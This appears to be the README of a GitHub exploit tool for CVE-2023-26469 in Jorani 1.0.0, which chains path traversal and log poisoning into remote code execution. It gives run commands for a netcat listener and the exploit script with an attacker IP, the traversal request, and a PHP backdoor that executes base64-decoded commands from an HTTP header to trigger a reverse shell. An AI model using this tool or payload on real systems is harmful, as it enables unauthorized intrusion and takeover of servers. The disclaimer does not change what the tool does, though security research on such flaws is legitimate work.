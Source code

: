 # Jorani 1.0.0 Exploit (CVE-2023-26469)

**Unrestricted File Upload → Remote Code Execution Exploit**

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
[![Python 3.8+](https://img.shields.io/badge/Python-3.8%2B-blue.svg)](https://www.python.org/downloads/)

**Disclaimer**: This tool is for educational and authorized testing purposes only. Misuse of this software is prohibited. The developers assume no liability for damage caused through improper use.

## Table of Contents
- [Description](#description)
- [Vulnerable Versions](#vulnerable-versions)
- [Installation](#installation)

## Description
This exploit targets a critical vulnerability chain in Jorani v1.0.0 that combines:
1. **Path Traversal** in language parameter
2. **Unrestricted File Upload** leading to Remote Code Execution

The exploit works by poisoning application logs with PHP code and triggering execution through manipulated HTTP headers.

**Credits**:
- Original vulnerability discovery: [@jrjgjk (Guilhem RIOUX)](https://github.com/jrjgjk)
- Exploit adaptation: Samip Mainali

## Vulnerable Versions
Confirmed vulnerable version:
- **Jorani 1.0.0**

Other potentially affected versions (untested):
- Tested on Version 1.0.0 (based on CVE-2023-26469 details)

## Installation
1. Clone repository:
bash
git clone https://github.com/<your-username>/jorani-exploit.git
cd jorani-exploit

Requirements:

Python 3.8+
Requests library
Usage

Start netcat listener:
bash
Copy
nc -lvnp 4444
Run exploit:
bash
Copy
python3 exploit.py -u http://target:port -i YOUR_IP -p LISTENER_PORT
Example:

bash
Copy
python3 exploit.py -u http://192.168.1.100:8080 -i 10.10.14.5 -p 4444
Features:

Automatic protocol detection (HTTP/HTTPS)
Randomized header injection
Connection stability checks
Detailed error diagnostics
Troubleshooting:

If connection fails, verify:
Target URL accessibility
Listener configuration
Firewall rules
Protocol compatibility (HTTP vs HTTPS)
Technical Details

Vulnerability Chain

Log Poisoning:
Path traversal in language parameter allows writing PHP files to log directory
http
Copy
POST /session/login HTTP/1.1
language=../../application/logs
Header-Based Code Execution:
php
Copy
```<?php 
if(isset($_SERVER["HTTP_X_CUSTOM_HEADER"])){
    system(base64_decode($_SERVER["HTTP_X_CUSTOM_HEADER"]));
}
```
Exploit Workflow

CSRF token extraction
Log file poisoning with PHP backdoor
Reverse shell triggering via custom header
Connection stability verification
Key Features

Randomized HTTP header names for each execution
Automatic protocol detection and validation
Connection timeout handling
Color-coded status output
References

CVE-2023-26469 Advisory
Original Research by Guilhem RIOUX

Legal Notice
This software is provided "as-is" without any warranty. Users are solely responsible for ensuring they have proper authorization to test systems using this tool. The developers disclaim all liability for unauthorized or malicious use.
